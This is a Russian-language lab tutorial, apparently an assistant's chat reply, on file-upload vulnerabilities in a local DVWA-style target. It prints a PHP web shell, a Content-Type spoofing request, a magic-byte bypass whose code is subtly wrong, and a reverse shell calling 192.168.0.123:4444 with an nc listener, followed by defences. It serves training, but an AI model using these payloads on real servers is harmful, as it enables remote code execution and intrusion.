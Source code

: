 Переходим к **File Upload уязвимостям** — одной из самых опасных категорий, так как она напрямую может привести к **удалённому выполнению кода (RCE)**.

---

## 🔍 Общее описание уязвимости File Upload

**File Upload** — это возможность загрузить файл на сервер. Проблема возникает, если:

* Не проверяется **содержание** файла.
* Проверяется **только расширение** (e.g. `.png`), а не **MIME-type** и **magic bytes**.
* Загрузка происходит в **исполняемый каталог** (например, `/uploads/`, доступный по HTTP).
* Нет **валидации содержимого** файла на предмет вредоносного кода.
* MIME-тип проверяется **на клиенте**, а не на сервере.

---

## 🧪 Уровень Low

Загружается **любой** файл. Файл можно назвать `shell.php`, он будет доступен по URL:

```
http://localhost:8081/hackable/uploads/shell.php
```

Содержимое shell-файла:

```php
<?php system($_GET['cmd']); ?>
```

Теперь можно выполнять команды:

```
http://localhost:8081/hackable/uploads/shell.php?cmd=id
```

---

## 🛡️ Уровень Medium

Загрузка ограничена **расширениями `.jpg`, `.png`**.

### 🔓 Обход:

* Загружаем скрипт под именем:

  ```
  shell.php.png
  ```
* Или даже:

  ```
  shell.png
  ```

  Но сам файл содержит PHP-код.

Сервер может проверить только расширение, но не заглядывает внутрь, поэтому файл все равно обрабатывается как PHP, если загружается в директорию, обрабатываемую PHP-интерпретатором.

---

## 🔒 Уровень High

На этом уровне:

* Проверяется расширение
* Проверяется MIME-type (Content-Type)
* Возможно, проверяются **magic bytes** (начальные байты файла)

### 🔓 Обход:

1. Меняем **Content-Type** при отправке:

В Burp или curl:

```http
POST /vulnerabilities/upload/
Content-Type: multipart/form-data; boundary=---123

-----123
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
-----123--
```

2. Либо создаем **dual extension**:

```text
shell.php.jpg
```

3. Либо добавляем **"magic bytes" JPEG** в начало файла:

```php
<?php
// файл: evil.jpg
echo "\xFF\xD8\xFF"; // JPEG header
echo "<?php system(\$_GET['cmd']); ?>";
?>
```

Такой файл пройдет как изображение, но будет обработан PHP, если попал в исполняемую директорию.

---

## 💣 Загружаем скрипт, который сразу выполнит бэкдор

### ✅ Цель:

Сразу при заходе на файл — автоматический **reverse shell** или бэкдор.

### 💥 Пример `auto_rce.php`

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.123/4444 0>&1'");
?>
```

1. Запускаем listener на атакующей машине:

```bash
nc -lvnp 4444
```

2. Загружаем файл под именем:

```
auto_rce.php.jpg
```

3. Переходим в браузере по:

```
http://localhost:8081/hackable/uploads/auto_rce.php.jpg
```

Бэкконнект установлен!

---

## 🛡️ Как защититься

* ❌ **Никогда** не полагаться на расширение!
* ✅ Проверяйте **MIME-type** и **magic bytes**
* 🚫 Храните загруженные файлы **вне директории веб-сервера**
* 🔐 Не давайте файлам оригинальные имена — сохраняйте их как UUID
* 🧹 Сканируйте файлы на вредоносный код (например, `php -l` или ClamAV)
* 🛑 Отключите выполнение PHP в папке загрузки (`.htaccess`):

```apache
php_flag engine off
```

---

## ✅ Подытожим

| Уровень    | Ограничения                 | Обход                                    |
| ---------- | --------------------------- | ---------------------------------------- |
| **Low**    | Нет                         | Прямой PHP-файл                          |
| **Medium** | Расширения (`.jpg`, `.png`) | `shell.php.png`                          |
| **High**   | MIME + расширение           | MIME spoof, JPEG magic bytes, `.php.jpg` |

---

Если готов — можем перейти к следующим уязвимостям: **XXE**, **IDOR**, **Open Redirect**, **Authentication bypass** или **JWT attacks**.

Какой выбираешь?
